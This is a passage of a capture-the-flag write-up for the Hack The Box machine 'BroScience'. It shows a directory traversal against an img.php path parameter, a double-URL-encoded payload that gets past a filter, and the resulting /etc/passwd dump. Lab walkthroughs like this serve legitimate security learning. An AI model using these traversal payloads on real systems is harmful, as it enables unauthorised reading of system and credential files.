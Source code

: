 {% include img_link src="/img/broscience/front_page" alt="front_page" ext="png" trunc=600 %}

<h2>Directory Traversal</h2>

I look at the source code and see that there is an img.php file in /includes where images are referenced through ?path=. I'll try directory traversal with **https://broscience.htb/includes/img.php?path=../../../../etc/passwd** and see what happens.

![directory traversal fail](/img/broscience/attack_fail.png)

Hmm, no dice. Let's urlencode the entire payload a couple times and see what happens. **https://broscience.htb/includes/img.php?path=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34**

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tss:x:103:109:TPM software stack,,,:/var/lib/tpm:/bin/false
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:105:111:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:107:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi:x:110:116:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
pulse:x:112:118:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:115:123::/var/lib/geoclue:/usr/sbin/nologin
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
